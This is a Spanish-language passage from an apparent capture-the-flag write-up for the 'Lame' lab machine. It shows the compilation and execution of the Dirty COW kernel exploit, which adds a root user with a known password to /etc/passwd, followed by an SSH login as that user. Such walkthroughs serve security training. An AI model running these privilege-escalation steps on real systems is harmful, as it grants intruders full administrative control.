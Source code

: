 Luego de descargado, se procede a compilar el exploit.

```bash
  daemon@lame:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
```

Finalmente, ejecutamos el exploit seguido de una contraseña aleatoria, en este caso la mía ha sido `hacked`.

```bash
  daemon@lame:/tmp$ ./dirty hacked 
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password: hacked
  Complete line:
  bast1ant1c:fiOEyJZz3b5lA:0:0:pwned:/root:/bin/bash
  
  mmap: b7ef5000
  ptrace 0
  Done! Check /etc/passwd to see if the new user was created.
  You can log in with the username 'bast1ant1c' and the password 'hacked'.
  
  
  DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
  daemon@lame:/tmp$ madvise 0
  
  Done! Check /etc/passwd to see if the new user was created.
  You can log in with the username 'bast1ant1c' and the password 'hacked'.
  
  
  DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

_NOTA:_ El script fue modificado para traer como username `bast1ant1c`, el usuario por defecto es `firefart`.

Ahora que tenemos usuario y contraseña, vamos a conectarnos por `ssh` a la maquina víctima.

El exploit ha creado un usuario con permisos de administración, por lo que la conexión realizada nos da acceso a un usuario con todos los privilegios.

```bash
  ❯ ssh bast1ant1c@10.10.10.3                                                             
  bast1ant1c@10.10.10.3's password:                                                       
  Last login: Mon Jul 11 23:25:01 2022 from :0.0                                          
  Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686                    
                                                                                          
  The programs included with the Ubuntu system are free software;                         
  the exact distribution terms for each program are described in the                      
  individual files in /usr/share/doc/*/copyright.                                         
                                                                                          
  Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                    
  applicable law.                                                                         
                                                                                          
  To access official Ubuntu documentation, please visit:                                  
  http://help.ubuntu.com/                                                                 
  bast1ant1c@lame:~# whoami                                                               
  bast1ant1c
```
